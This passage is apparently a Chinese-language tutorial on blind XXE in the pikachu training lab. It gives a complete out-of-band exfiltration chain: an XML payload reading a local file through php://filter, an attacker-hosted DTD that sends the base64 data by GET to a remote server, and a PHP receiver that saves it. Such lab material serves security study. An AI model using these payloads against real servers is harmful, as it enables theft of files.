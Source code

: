 上面xml的payload中的URL一般是自己的网站地址

第一步：PHP伪协议访问服务器自己的文件，将访问文件内容写到`%file`当中

第二步：访问远程的dtd文件，把PHP伪协议读取到的数据`%file`赋给`data`变量，并以GET方法提交给远程的攻击者服务器

第三步：我们只需要在自己的网站日志，或者写个php脚本接收上述`data`变量值，就能看到读取到的文件数据了。

#### 示例

在pikachu的XXE靶场中修改代码，使得该XXE无回显

修改源代码位置：`pikachu/vul/xxe/xxe_1.php`，在82行左右存在以下代码，注释掉`echo`等内容如下：

```
<?php //echo $html;?>
```

之后提交payload则前端不会有回显

##### 已知信息如下

目标服务器D盘下存在文件`test.txt`，内容为`I am a hacker`

攻击者IP为127.0.0.1，其www目录下存在文件`test.dtd`和`receive.php`

##### XXE的XML payload及作用

构造XXE漏洞的payload  

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/test.dtd">
		%dtd;
		%send;
]>
```

1. 目标服务器XXE漏洞执行读取敏感文件后，将敏感文件内容保存到`%file`中

2. 目标服务器访问远程的攻击者服务器上的`dtd`文件，`%file`会赋值给一个PHP变量

##### 攻击者的test.dtd及作用

`test.dtd`内容如下：注意%号要进行实体编码成&#x25

```
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/receive.php?data=%file;'>">%payload;
```

该`dtd`文件将上述`%file`赋值给一个GET参数data，并将这个GET参数提交到远程攻击者服务器的`receive.php`文件处理

##### 攻击者的receive.php及作用

receive.php：

```php
<?php 
    $data = $_GET["data"]; 
    $myfile = fopen("data.txt", "w");
    fwrite($myfile, $data);
	fclose($myfile);
?>
```
